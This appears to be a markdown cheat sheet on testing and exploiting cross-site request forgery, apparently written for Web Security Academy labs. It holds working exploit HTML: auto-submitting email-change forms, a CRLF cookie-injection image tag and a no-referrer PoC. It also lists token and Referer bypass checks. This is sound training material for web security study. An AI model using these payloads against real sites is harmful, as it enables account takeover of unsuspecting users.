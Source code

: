 For a CSRF attack to be possible, three key conditions must be in place:
```
1. A relevant action.
2. Cookie-based session handling.
3. No unpredictable request parameters.
```
### Testing CSRF Token.
```
1. Remove CSRF parameter/token and see if application accepts it.
2. Change request method POST to GET.
3. Exchange csrf token with another user.
```
### Testing CSRF token and CSRF Cookies.
____
#### Check if CSRF token is tied to the CSRF cookie.
```
1. Submit an invalid CSRF token.
2. Submit a valid CSRF token from another user.
3. Submit a valid CSRF token and CSRF cookie from another user.
4. In uplicated token cookie try to assign same random value in token+cookie.
```
### Exploitation
To exploit this CSRF token+cookie mechanism, we need to perform 2 things.
```
1. Inject a CSRF cookie in user's session. (HTTP Header injection)
2. Send a CSRF attack to victim.
```
#### Exploit
```html
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```
```html
<img src="https://0a5000e9036c9fa3820d15c300a500d4.web-security-academy.net/?search=asdasfa%0d%0aSet-Cookie:%20csrf=testing;%20SameSite=None" onerror="document.forms[0].submit()">
```
### Testing Referer Header for CSRF attack
```
1. Remove Refere Header and see if it works.
2. Check which portion of referrer header is the application validating.
  Ex 1: Referer:  https://attacker.com/?vulnerable-web.net
  Ex 2: Referer:  http://vulnerable-website.com.attacker-website.com/csrf-attack
```
#### Exploit for case 1
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<head>
<meta name="referrer" content="no-referrer">
</head>
  <body>
    <form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
### SameSite Lax Bypass
Key Note:
```
Set-Cookie: session=bciZoELY2ukJUUOj1zJ7wcAGdYXtvq3C; Secure; HttpOnly; SameSite=Strict
```
```
1. Change method POST to GET.
2. Via cookie refresh
```
